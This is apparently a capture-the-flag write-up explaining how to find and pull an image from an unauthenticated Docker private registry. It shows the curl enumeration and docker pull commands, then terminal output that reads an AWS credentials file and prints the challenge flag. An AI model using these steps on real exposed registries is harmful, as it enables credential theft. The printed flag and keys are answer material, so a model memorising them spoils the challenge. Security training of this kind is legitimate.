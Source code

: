 Level 13: India
===============

Description
-----------

```
We use docker private registry to host our secure AWS app.

52.53.166.207
```
**Points**: 500

WriteUp
-------

So it seems that the company has started their own *Docker Hub*. A Google search for `docker private registry` throws interesting results such as [this](https://docs.docker.com/registry/deploying/). What is interesting from it is the fact that they are typically up in port 5000 and deployed with:

```
[…]
$ docker run -d -p 5000:5000 --restart=always --name registry registry:2
[…]
```

Typically, if we want to search in Docker Hub we can use `docker search whatever` but it is not possible to launch it directly to a private hub. Coming back to Google, we know want to try recover the available Docker images in the private hub and we find [this](https://forums.docker.com/t/docker-private-registry-how-to-list-all-images/21136/3) in the Docker Forums which claims that it is easy to call listing `https://<host>:<port>/v2/_catalog`. 

So, it's time to try it:
```
 curl http://52.53.166.207:5000/v2/_catalog
{"repositories":["dev-aws-test-code"]}
```
Great, it seems that we have found an image that matches the description of the challenge. Knowing that, the first idea is to try to directly recover the docekr image using `docker pull` but it says that it is not possible to recover the latest image:

```
$ docker pull 52.53.166.207:5000/dev-aws-test-code
Using default tag: latest
Pulling repository 52.53.166.207:5000/dev-aws-test-code
Error: image dev-aws-test-code:latest not found
```

So, this is an error that simply says that there is not image tagged as `:latest`, which is the default tag assumed when not provided. As we do not have Docker Hub web UI to ask for it, we come back to Google to ask for a way of listing the tags of an image and we find [this](https://docs.docker.com/registry/spec/api/#listing-image-tags) in the Docker documentation:

![List images](/res/level_13-list_images.png)

```
$ curl http://52.53.166.207:5000/v2/dev-aws-test-code/tags/list
{"name":"dev-aws-test-code","tags":["notreadyet"]}
```


But trying will raise errors because it will try to recover the images from a secure regitry using SSL. We have to take into account that we have to add the repository (`52.53.166.207:5000`) as an insecure repository to a specific daemon.json file that we have to create (full documentation [here](https://docs.docker.com/registry/insecure/).

The details of the daemon.json are simple:
```
{ "insecure-registries":["52.53.166.207:5000"] }
```
In my case, I have had to restart Docker before pulling the image from the new registry:

```
docker pull 52.53.166.207:5000/dev-aws-test-code
```

So that's why it crashed: there is no `latest` tag but there is a `notreadyet` (note that it's with just one 'y'). Time to pull it:

```
docker pull 52.53.166.207:5000/dev-aws-test-code:notreadyet
```

Once pulled, it's time to run the image with an interactive shell

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet
```
As it opens by default `htop`, we opt for opening it with an itneractive Bash shell

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet /bin/bash
docker: Error response from daemon: oci runtime error: container_linux.go:247: starting container process caused "exec: \"/bin/bash\": stat /bin/bash: no such file or directory".
```

The crash is suspicious, but we can try with `/bin/sh` nd it just works

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet /bin/sh
```


And inside the image, it's pretty straightforward. The lines that follow are copied directly from the terminal, but I think that self-explanatory:

```
/ # ls -la
total 6
total 68
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .aws
-rwxr-xr-x    1 root     root             0 Aug 12 14:03 .dockerenv
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 app
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 bin
drwxr-xr-x    5 root     root           360 Aug 12 14:03 dev
drwxr-xr-x   17 root     root          4096 Aug 12 14:03 etc
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 home
drwxr-xr-x    6 root     root          4096 Jul  5 14:47 lib
drwxr-xr-x    5 root     root          4096 Jul  5 14:47 media
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 mnt
dr-xr-xr-x  298 root     root             0 Aug 12 14:03 proc
drwx------    2 root     root          4096 Aug 12 14:03 root
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 run
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 sbin
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 srv
dr-xr-xr-x   13 root     root             0 Aug 12 14:03 sys
drwxrwxrwt    2 root     root          4096 Jul  5 14:47 tmp
drwxr-xr-x   10 root     root          4096 Jul  5 14:47 usr
drwxr-xr-x   12 root     root          4096 Jul  5 14:47 var

/var # cd
~ # ls -la
total 12
drwx------    2 root     root          4096 Aug 12 14:03 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-------    1 root     root           362 Aug 12 14:06 .ash_history
~ # cd /app/
/app # ls -la
total 12
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-r--r--    1 root     root            43 Aug 11 22:56 README.md
/app # cat README.md 
# Welcome

Need to fix the AWS credentials
/ # cd /.aws/
/.aws # ls -la
total 20
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-r--r--    1 root     root            39 Aug 11 22:53 config
-rw-r--r--    1 root     root           116 Aug 11 22:54 credentials
-rw-r--r--    1 root     root           136 Aug 11 22:55 flag.txt
/.aws # cat credentials 
[default]
aws_access_key_id=AKIAIOSFODNN7EXAMPLE
aws_secret_access_key=wJalrXUtnFEMI/K7MDENG/bPxRfioEH62Bzo1TFGabmw
/.aws # cat config 
[default]
region=us-west-2
output=json
/.aws # cat flag.txt 
flag:{ea940af17b004f229329682b4ab0d2502d739920c27d4d6ea94233780fe7fa72c21b31c56e2b4aa68340992a2147056d298870faf4094f179025579a40266cf1}
```
Done! :D

Solution
--------

```flag:{ea940af17b004f229329682b4ab0d2502d739920c27d4d6ea94233780fe7fa72c21b31c56e2b4aa68340992a2147056d298870faf4094f179025579a40266cf1}```
